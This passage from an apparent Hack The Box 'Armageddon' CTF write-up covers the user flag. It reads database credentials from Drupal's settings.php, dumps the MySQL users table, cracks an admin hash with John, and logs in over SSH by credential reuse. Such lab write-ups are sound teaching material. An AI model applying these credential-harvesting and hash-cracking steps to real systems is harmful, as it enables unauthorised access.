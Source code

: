## User Flag  
The first thing to check after compromising a web application is often the content of its database. We'll examine Drupal's `settings.php` file to view the database credentials,  
```PHP
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Now, logging into MySQL with username `drupaluser` and password `CQHEy@9M*m23gBVj` allows us to dump the users table and view the password hashes.

```
apache-4.2$ mysql -u drupaluser -p drupal
mysql -u drupaluser -p drupal
Enter password: CQHEy@9M*m23gBVj
select * from users;
exit();
ERROR 1064 (42000) at line 2: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'exit()' at line 1
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu        a:1:{s:7:"overlay";i:1;}
apache-4.2$
```

We see `brucetherealadmin` has a hash of `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`. We can drop this hash into a file called `armageddon.hash` and try to crack it with John and the `rockyou.txt` wordlist.

![user](/posts/images/hack-the-box-armageddon-writeup/user.png)  
**Figure 4:** Cracking the password hash for *brucetherealadmin*.  

As we can see above, the password that *brucetherealadmin* uses to login to Drupal is `booboo`. If we attempt the to use those same credentials to ssh into the server, we'll see that it's successful.

![userflag](./images/userflag.png)  
**Figure 5:** User flag by *brucetherealadmin*'s credential reuse.
